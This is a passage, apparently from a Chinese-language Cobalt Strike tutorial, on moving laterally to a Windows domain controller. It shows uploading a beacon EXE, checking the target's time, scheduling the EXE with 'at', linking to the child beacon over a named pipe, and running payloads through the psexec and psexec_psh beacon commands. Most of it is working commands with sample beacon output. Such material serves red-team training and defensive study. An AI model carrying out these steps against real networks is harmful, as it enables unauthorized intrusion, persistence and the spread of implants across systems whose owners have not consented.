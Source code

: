 # 0x04 执行文件（方法二）

1、生成 Windows EXE 并上传，注意这里生成的 EXE 和`方法一`生成的 EXE 是不一样的类型，这里生成的是` Windows EXE`，不是方法一中的`Windows Service EXE`

2、找到目标系统上的时间

```powershell
shell net time \\host
```

```powershell
beacon> shell net time \\windc
[*] Tasked beacon to run: net time \\windc
[+] host called home, sent: 49 bytes
[+] received output:
\\windc 的当前时间是 2020/8/30 14:54:09
命令成功完成。
```

3、创建一个计划任务

```powershell
shell at \\host HH:mm C:\path\to\bad.exe
```

```powershell
beacon> shell at \\windc 15:00 C:\windows\temp\beacon.exe
[*] Tasked beacon to run: at \\windc 15:00 C:\windows\temp\beacon.exe
[+] host called home, sent: 76 bytes
[+] received output:
新加了一项作业，其作业 ID = 1
```

4、当计划任务被执行时，执行 link hostname 即可上线主机

```powershell
beacon> link windc
[*] Tasked to link to \\windc\pipe\msagent_d76a
[+] host called home, sent: 34 bytes
[+] established link to child beacon: 192.168.175.144
```

# 0x05 beacon 的自动操作

前面说的两种执行文件的方法都需要往磁盘里上传文件，如果不想往磁盘中上传文件，也可以使用 beacon 的自动操作。

* 使用一个服务运行可执行文件

```powershell
psexec [target] [share] [listener]
```

* 使用一个服务运行 Powershell 单行程序

```powershell
psexec_psh [target] [listener]
```
